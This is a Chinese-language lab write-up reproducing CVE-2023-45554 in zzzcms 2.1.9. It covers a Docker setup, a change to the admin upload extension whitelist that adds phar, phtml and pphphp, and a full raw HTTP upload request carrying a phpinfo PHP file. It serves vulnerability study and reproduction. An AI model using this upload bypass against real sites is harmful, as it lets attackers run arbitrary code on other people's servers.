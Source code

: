 # CVE-2023-45554 zzzcms 后台上传设置过滤绕过 

​	zzzcms系统是一款免费、开源的php语言建站系统，采用类MVC结构，框架简单，简单易学。诞生于2016年，其设计初衷是为了让用户快速、方便地建立自己的网站。该系统采用PHP语言开发，支持多相对于其他内容管理系统，ZZZCMS的特点在于其操作简单，易于上手，而且具有良好的扩展性和安全性。此外，ZZZCMS还提供了丰富的功能模块，包括文章管理、分类管理、标签管理、留言管理、友情链接管理等，可以满足大多数用户的需求。同时，ZZZCMS还提供了强大的SEO优化功能，可以帮助用户提高网站的排名，吸引更多的流量。支持MySQL、sQLite数据库。

​	zzzCMS v.2.1.9 中的文件上传漏洞允许远程攻击者通过将 imageext 参数从 jpg、jpeg、gif 和 png 修改为 jpg、jpeg、gif、png、pphphp 来执行任意代码。



zzzCMS官网 http://www.zzzcms.com/index.html

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2023-45554
- https://github.com/96xiaopang/Vulnerabilities/blob/main/zzzcms任意文件上传_en.md



## 漏洞环境



执行如下命令启动一个zzzcms-v2.1.7-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`即可跳转到zzzcmsan安装向导页面

1，将后台地址设置为admin  

![image-20240410165238452](./1.png)

点击下一步

![image-20240410165357948](./2.png)



## 漏洞复现

登录后台 找到上传设置，设置图片类型如下

`jpg,jpeg,gif,png,pphphp5,phar,phtml,pphphp`

![image-20240410165753268](./3.png)

![image-20240410165657295](./4.png)

找到上传点 准备上传文件

![image-20240410165910441](./5.png)

![image-20240410170047132](./6.png)

```
POST /admin/save.php?act=upload&uptype=image&upfolder=photo HTTP/1.1
Host: 192.168.116.128
Content-Length: 889
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAguYcgJPmLCxVJXJ
Accept: */*
Origin: http://192.168.116.128
Referer: http://192.168.116.128/admin/?act=imagelist&numtype=0&upfolder=photo
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; PUBLICCMS_ANALYTICS_ID=3a91f834-b96d-451b-a953-6739bcff6ca0; PUBLICCMS_ADMIN=1_27f0e838-371b-4207-b689-7078a11597be; PHPSESSID=feab404c462e213c6ee39963cc6f7178; zzz998_usercheck=0; zzz116_token=bdcc0f20eec1a5aa7b0a97a58248dacc; zzz116_adminpass=1; zzz116_adminpath=1; zzz116_adminname=admin; zzz116_admintime=1712735964; zzz116_adminface=..%2Fplugins%2Fface%2Fface01.png; zzz911_token=10a5ec35885be8a4f58414fc7b4deeb0; zzz911_adminpass=1; zzz911_adminpath=1; zzz911_adminname=admin; zzz911_admintime=1712739306; zzz911_adminface=..%2Fplugins%2Fface%2Fface01.png
Connection: close

------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="format"

shijian
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="name"

phpinfo.phar
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="type"

application/octet-stream
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="lastModifiedDate"

Wed Apr 10 2024 14:32:36 GMT+0800 (中国标准时间)
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="size"

23
------WebKitFormBoundaryAguYcgJPmLCxVJXJ
Content-Disposition: form-data; name="file"; filename="phpinfo.phar"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryAguYcgJPmLCxVJXJ--

```

依次修改filename为phpinfo.phar phpinfo.phtml phpinfo.php5

![image-20240410170453891](./7.png)

![image-20240410170545513](./8.png)

访问phpinfo

![image-20240410170631292](./9.png)

![image-20240410170743708](./10.png)

![image-20240410170824240](./11.png)